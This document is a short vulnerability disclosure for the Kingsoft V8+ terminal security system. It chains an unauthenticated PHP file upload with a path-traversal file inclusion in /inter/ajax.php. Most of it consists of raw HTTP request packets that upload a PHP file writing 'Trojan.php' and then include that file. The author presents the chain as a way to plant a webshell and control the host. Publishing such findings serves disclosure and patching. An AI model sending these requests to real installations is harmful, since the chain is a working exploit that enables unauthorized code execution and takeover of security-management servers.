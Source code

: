 # Kingsoft Security Arbitrary File Upload + File Contains Vulnerabilities

#### 1.Vulnerability link

https://www.ejinshan.net/product_V8/index.html

#### 2.Vulnerability version

V8+ terminal security system

#### 3.Vulnerability reproduction

3.1. First upload the php file in /inter/uploadFile.php to the system, uploadFile.php does not require arbitrary permissions to upload the file

Upload the data package as follows:

```shell
POST /inter/uploadFile.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 315
Content-Type: multipart/form-data; boundary=f308c8c8074428d48dc1fbd26e7b3ed5


--f308c8c8074428d48dc1fbd26e7b3ed5
Content-Disposition: form-data; name="savepath"


111
--f308c8c8074428d48dc1fbd26e7b3ed5
Content-Disposition: form-data; name="file"; filename="123.php"


<?php
$test='<?php phpinfo(); ?>';
file_put_contents("Trojan.php", $test);
?>
--f308c8c8074428d48dc1fbd26e7b3ed5--
```

After the file is successfully uploaded, the echo packet contains the file name. for example:

![Image](Image.png)

But the sad part is that the file cannot be accessed directly,final,I found that the file /inter/ajax.php has file inclusion loopholes, which can contain file upload loopholes. Upload files and write them into the webshell to achieve the effect of controlling the host.

Upload the data package as follows:

```shell
POST /inter/ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 121
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lootcn61f1sd5immqommrt9pv6
Connection: close


{"../../../uploadfile/111/123_127.0.0.1_1618316095_92846":{"name":"admin","password":"21232f297a57a5a743894a0e4a801fc3"}}
```

Finally visit /inter/Trojan.php, successfully access the write file address

eg：

![shell](shell.png)

